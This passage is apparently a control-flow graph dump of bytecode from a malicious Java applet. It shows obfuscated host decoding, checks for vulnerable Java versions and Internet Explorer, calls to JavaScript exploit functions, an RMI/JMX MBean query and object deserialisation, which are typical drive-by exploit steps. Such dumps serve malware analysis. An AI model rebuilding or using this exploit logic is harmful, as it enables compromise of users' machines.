    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"I\"";
    "push \".\""
    "push \"I\""->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"K\"";
    "push \"_\""
    "push \"K\""->"push \"_\"";
    "push \"_\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"(\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"(\"";
    "push \"(\""->"push \"_\"";
    "push \"_\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \",\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \",\"";
    "push \":\""
    "push \",\""->"push \":\"";
    "push \":\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"A\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"A\"";
    "push \"1\""
    "push \"A\""->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"N\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"N\"";
    "push \"2\""
    "push \"N\""->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"*\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"*\"";
    "push \"3\""
    "push \"*\""->"push \"3\"";
    "push \"3\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"J\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"J\"";
    "push \"4\""
    "push \"J\""->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \")\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \")\"";
    "push \"5\""
    "push \")\""->"push \"5\"";
    "push \"5\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"O\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"O\"";
    "push \"6\""
    "push \"O\""->"push \"6\"";
    "push \"6\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"$\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"$\"";
    "push \"7\""
    "push \"$\""->"push \"7\"";
    "push \"7\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"X\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"X\"";
    "push \"8\""
    "push \"X\""->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"+\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"+\"";
    "push \"9\""
    "push \"+\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"E\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"E\"";
    "push \"0\""
    "push \"E\""->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"?i=6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"?i=6\"";
    "push \"?i=6\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <a: java.lang.String host>";
    "staticput <a: java.lang.String host>"->"staticget <a: java.lang.String host>";
    "push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\""
    "staticget <a: java.lang.String host>"->"push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\"";
    "push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\""->"push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\"";
    "staticinvoke <a: java.lang.String __K(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ/.:_-?&=%#\""->"staticinvoke <a: java.lang.String __K(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <a: java.lang.String __K(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <a: java.lang.String host>";
    "staticput <a: java.lang.String host>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"8888\""
    "pop"->"push \"8888\"";
    "staticput <a: java.lang.String s_port>"
    "push \"8888\""->"staticput <a: java.lang.String s_port>";
    "staticput <a: java.lang.String s_port>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"staticget <a: java.lang.String host>";
    "ifnonnull push 0"
    "staticget <a: java.lang.String host>"->"ifnonnull push 0";
    "ifnonnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"127.0.0.1\""
    "pop"->"push \"127.0.0.1\"";
    "push \"127.0.0.1\""->"staticput <a: java.lang.String host>";
    "staticput <a: java.lang.String host>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push null"
    "pop"->"push null";
    "store.r $r12"
    "push null"->"store.r $r12";
    "store.r $r12"->"push 1";
    "push 1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "pop"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto push 0"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto push 0";
    "goto push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "pop"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "store.r $r78"
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r $r78";
    "load.r $r78"
    "store.r $r78"->"load.r $r78";
    "load.r $r78"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r $r12";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r $r12"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"IOException: \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"IOException: \"";
    "push \"IOException: \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r $r12"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"
    "load.r $r12"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto load.r r2"
    "pop"->"goto load.r r2";
    "load.r r2"
    "goto load.r r2"->"load.r r2";
    "push \"notie\""
    "load.r r2"->"push \"notie\"";
    "push \"notie\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i push 0"
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b $r12"
    "push 1"->"store.b $r12";
    "goto load.r r1"
    "store.b $r12"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "push \"1.6.0_19\""
    "load.r r1"->"push \"1.6.0_19\"";
    "push \"1.6.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b $r78"
    "push 1"->"store.b $r78";
    "goto load.b $r12"
    "store.b $r78"->"goto load.b $r12";
    "load.b $r12"
    "goto load.b $r12"->"load.b $r12";
    "load.b $r78"
    "load.b $r12"->"load.b $r78";
    "and.b"
    "load.b $r78"->"and.b";
    "ifeq load.r r1"
    "and.b"->"ifeq load.r r1";
    "ifeq load.r r1"->"load.r r0";
    "virtualinvoke <a: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <a: java.applet.AppletContext getAppletContext()>";
    "new java.net.URL"
    "virtualinvoke <a: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"javascript:JAVASMB();\""
    "dup1.r"->"push \"javascript:JAVASMB();\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"javascript:JAVASMB();\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "load.r r1"->"push \"1.6.0_19\"";
    "push \"1.6.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r1";
    "push \"1.6.0_20\""
    "load.r r1"->"push \"1.6.0_20\"";
    "push \"1.6.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r1";
    "push \"1.6.0_21\""
    "load.r r1"->"push \"1.6.0_21\"";
    "push \"1.6.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b r1"
    "push 1"->"store.b r1";
    "store.b r1"->"goto load.r r2";
    "goto load.r r2"->"load.r r2";
    "push \"isie\""
    "load.r r2"->"push \"isie\"";
    "push \"isie\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b r2"
    "push 1"->"store.b r2";
    "goto load.b r1"
    "store.b r2"->"goto load.b r1";
    "load.b r1"
    "goto load.b r1"->"load.b r1";
    "load.b r2"
    "load.b r1"->"load.b r2";
    "load.b r2"->"and.b";
    "ifeq return"
    "and.b"->"ifeq return";
    "ifeq return"->"load.r r0";
    "load.r r0"->"virtualinvoke <a: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <a: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"javascript:JAVASKYLINE();\""
    "dup1.r"->"push \"javascript:JAVASKYLINE();\"";
    "push \"javascript:JAVASKYLINE();\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r r0";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b r2";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r $r12";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b $r78";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b $r12";
    "push null"->"store.r $r12";
    "store.r $r12"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r $r78";
    "new af439f03798"
    "load.r $r78"->"new af439f03798";
    "new af439f03798"->"dup1.r";
    "specialinvoke <af439f03798: void <init>()>"
    "dup1.r"->"specialinvoke <af439f03798: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <af439f03798: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r $r78";
    "push \"vasya\""
    "load.r $r78"->"push \"vasya\"";
    "push \"vasya\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"load.r $r12";
    "load.r $r12"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto load.r r2";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "push 1"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.io.ObjectInputStream"
    "pop"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticget <a: java.lang.String filename>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticget <a: java.lang.String filename>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticget <a: java.lang.String filename>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "pop"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r $r12";
    "store.r $r12"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"goto push 0";
}
